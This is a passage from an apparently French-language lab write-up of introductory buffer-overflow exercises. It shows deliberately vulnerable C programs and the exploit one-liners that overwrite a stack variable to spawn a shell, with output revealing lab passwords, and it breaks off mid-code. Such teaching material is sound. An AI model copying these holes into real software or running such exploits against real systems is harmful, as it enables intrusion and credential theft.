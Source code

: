 ```
ex00@debian:~$ python -c 'print "A" * 14' | ./ex00
Welcome to the world of buffer overflow.
You can use the following password to login to user ex00b:
1PflGqsQDo25JAqO1KLA1VNI8WEBJEa3
ex00@debian:~$
```


## Exercice 01

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int modify_me;
    char buff[120];

    modify_me = 0;
    fgets(buff, 125, stdin);
    if (modify_me == 0xdeadbeef) {
        puts("First buffer overflow exploitation GG! :)\n");
	system("/bin/sh");
    }
    else
        printf("Try again !\n");
    return (0);
}
```

Même exercice que le précédent mais la valeur à écrire n'est plus arbitraire.
Pas la peine de calculer les offets ou quoi, on écrit simplement la valeur
demander en boucle, on tombera juste grace au padding :

```
ex00b@debian:~$ (python -c "print '\xef\xbe\xad\xde' * 200"; cat -) | ./ex00b
First buffer overflow exploitation GG! :)

cat /home/ex01/.passwd
RaP77hlYj1AyJgzVl8OMzyeu9AvlbNVQ
ex00b@debian:~$
```

On doit trickser pour se garder `stdin` ouvert. **C'est quelque chose qu'on
donne aux étudiants. Il ne faut pas qu'ils soient frustrés par ça.**


## Exercice 01b


```c
#include <stdio.h>
#include <stdlib.h>

void sh() {
    system("/bin/sh");
}

void useless() {
    printf("This is a useless function");
}

int main(void) {
    int var;
    void (*func)()=useless;
    char buf[128];
```